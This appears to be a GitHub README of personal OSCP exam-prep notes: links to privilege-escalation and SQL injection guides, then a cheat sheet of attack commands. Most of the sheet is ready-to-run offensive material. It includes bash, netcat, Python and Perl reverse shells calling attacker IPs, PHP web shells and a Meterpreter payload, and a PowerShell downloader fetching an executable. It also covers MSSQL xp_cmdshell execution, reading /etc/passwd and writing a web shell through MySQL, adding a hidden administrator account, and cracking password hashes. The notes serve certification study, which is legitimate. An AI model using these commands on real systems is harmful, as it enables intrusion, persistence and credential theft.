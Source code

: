 # oscp_notes
My Personal OSCP Notes

Welp, just my personal OSCP notes. I am pretty sure these can help you get VERY high score in your exam. So why not try them out?

I am still organizing all my scripts and stuff. Please stay tune to the repo.

## Good Readups
### Linux
[(Outdated) Basic Linux Priviledge Checklist - https://www.blackmoreops.com/2017/01/17/find-linux-exploits-by-kernel-version/](https://www.blackmoreops.com/2017/01/17/find-linux-exploits-by-kernel-version/)

[Basic Linux Priviledge Escalation Checklist - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Exploit SUID/SGID - https://null-byte.wonderhowto.com/how-to/hack-like-pro-finding-potential-suid-sgid-vulnerabilities-linux-unix-systems-0158373/](https://null-byte.wonderhowto.com/how-to/hack-like-pro-finding-potential-suid-sgid-vulnerabilities-linux-unix-systems-0158373/)


### Windows
[Windows Exploit Suggester - https://resources.infosecinstitute.com/windows-exploit-suggester-an-easy-way-to-find-and-exploit-windows-vulnerabilities/](https://resources.infosecinstitute.com/windows-exploit-suggester-an-easy-way-to-find-and-exploit-windows-vulnerabilities/)

[PowerSploit - Post-exploit framework - https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

[nishang - Post-exploit Toolkit - https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

[Some Windows privesc techniques - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)


### Database
[SQL Injection Techniques - https://www.exploit-db.com/docs/41273.pdf](https://www.exploit-db.com/docs/41273.pdf)

[Useful notes - https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)


## Command Notes
### NMap

    # Scanning TCP ports 1 - 65535 + verbose + OS detection + timeout settings + treat all host online
    nmap -v -p- -A -T4 -sV -Pn <IP>


### Metasploit

    # Shell listener for reverse payload (Server side)
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.45.31
    set LPORT 1337
    set ExitOnSession false
    exploit -j -z


### Shellcodes

    # PHP Meterpreter reverse payload
    msfvenom -p php/meterpreter/bind_tcp LHOST=10.11.0.51 LPORT=1337 -f php > meterp.php

    # PHP error display (useful for testing shells)
    ini_set('display_errors', 1);
    ini_set('display_startup_errors', 1);
    error_reporting(E_ALL);

    # PHP Simple Shell
    <?php echo system($_GET['cmd']);?>
    <?php @system($_GET['c'])?>

    # bash reverse shell
    bash -i >& /dev/tcp/10.11.0.51/1337 0>&1

    # netcat (nc) reverse shell (simple)
    /bin/sh | nc <your IP> <port>

    # netcat (nc) evil reverse shell (require specific version)
    nc -e /bin/bash <your IP> <port>

    # Python reverse shell
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.38.31”,1339));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

    # Perl reverse shell
    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.11.1.246:1337");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

    # Python shell construction (useful for TOO simple shell)
    python -c 'import pty;pty.spawn("/bin/bash")'

    # MSSQL No DUMP shell
    DECLARE @c varchar(3000);set @c=0x70696e6731302e31312e302e3531;EXEC master..xp_cmdshell @c--

    # MSSQL DUMP shell
    DECLARE @cVARCHAR(8000);SET @c=0x64697220433a5c;INSERT INTO sqlmapoutput(data) EXEC master…xp_cmdshell @c–

### Payload hosting method

    # Python
    python -m SimpleHTTPServer 8080


### Downloader

    # PowerShell
    powershell “(new-object System.Net.WebClient).DownloadFile(‘http://10.11.0.51:4949/yo.exe’,'yo.exe’)”


### MySQL Techniques
    # Load local file
    LOAD DATA LOCAL INFILE “/etc/passwd” INTO TABLE yolo

    # Clear and Load local file
    TRUNCATE yolo;LOAD DATA LOCAL INFILE “/etc/phpmyadmin/apache.conf” INTO TABLE yolo;

    # Basic into dumpfile
    select “<?php echo system($_GET['cmd']);?>” INTO dumpfile ‘/var/www/html/yolo.php’


### Random Knowledge

    # Mount file system
    mount -t cifs -o user=bob,sec=ntlm,dir_mode=0077 “//10.11.1.136/Bob Share” /mnt/cifs

    # John The Ripper
    unshadow 10.11.1.141_passwd 10.11.1.141_shadow >10.11.1.141_tocrack
    john --word=/usr/share/wordlists/rockyou.txt 10.11.1.141_tocrack --fork=30

    # Windows add new administrator account
    net user yolo whysoserious /add
    net localgroup Administrators yolo /add

    # Find broken UID files
    find / -user root -perm -4000 -exec ls -ldb {} ; > /tmp/uids

    # GCC cross compile
    gcc -m32 -Wl,–hash-style=both -o exploit exploit.c

    # SSH Local Bind Tunnel (Bind 1337 on client (local))
    ssh -L 127.0.0.1:1337:localhost:443 root@victim

    # SSH Remote Bind Tunnel (Bind 1337 on target (remote)) [Useful for tunneling into another network]
    ssh -R 127.0.0.1:1337:10.30.0.3:443 root@victim

    # SSH Dynamic Tunnel (Useful for VPN usage)
    ssh -D9999 root@victim